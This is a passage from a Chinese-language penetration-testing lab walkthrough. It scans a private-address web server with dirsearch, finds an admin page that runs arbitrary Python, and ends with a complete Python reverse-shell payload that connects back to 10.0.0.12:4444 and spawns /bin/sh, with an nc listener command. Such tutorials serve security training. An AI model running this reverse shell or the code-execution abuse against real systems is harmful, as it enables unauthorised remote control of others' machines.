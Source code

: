 **目录扫描!!!**

既然当前的首页我们找不到漏洞,不如找找其他页面?

目录扫描的工具有很多,此处使用由python编写的工具**dirsearch**

`dirsearch -u "http://10.0.0.16:5000/"`

![截屏2021-08-04 下午1.16.05](https://tva1.sinaimg.cn/large/008i3skNly1gt4om70jnlj315w0h0770.jpg)

很顺利,我们发现了admin文件

对于web应用来说,**寻找敏感目录**是**非常重要**的一步,一定要记住!

![截屏2021-08-04 下午1.19.29](https://tva1.sinaimg.cn/large/008i3skNly1gt4opmo68xj31a40qg0u9.jpg)

此处具有执行代码的功能,奇怪,什么代码???

我们先尝试shell指令

`echo "hello world"`

![截屏2021-08-04 下午1.21.02](https://tva1.sinaimg.cn/large/008i3skNly1gt4or90styj30na0cmdgu.jpg)

居然显示代码执行出错?

看来不是shell指令,那么会是什么呢?

回顾我们之前nmap扫描的结果,这个web使用的是python中的模块搭建的,会不会执行的是python的代码呢?

我们尝试输入python代码

```python
def HH():
	print('HH')
HH()
```

![截屏2021-08-04 下午1.24.13](https://tva1.sinaimg.cn/large/008i3skNly1gt4oujiau2j30na0cmq3n.jpg)

代码运行成功了!

**在进行渗透测试时,一定要学会充分的信息收集,并将所收集到的信息运用到其他地方的测试~**

下一步,我们尝试通过执行python代码反弹shell

先在本地通过`nc -lp 4444`监听4444端口,再在web端执行如下代码

```python
import socket,os,subprocess
RHOST='10.0.0.12'  # Change it
RPORT=4444  # Change it
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  # 创建一个TCP-socket对象
s.connect((RHOST,RPORT)) 	# 连接攻击者
os.dup2(s.fileno(),0)		# 复制链接符
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])  # 创建子进程调用SHELL
```
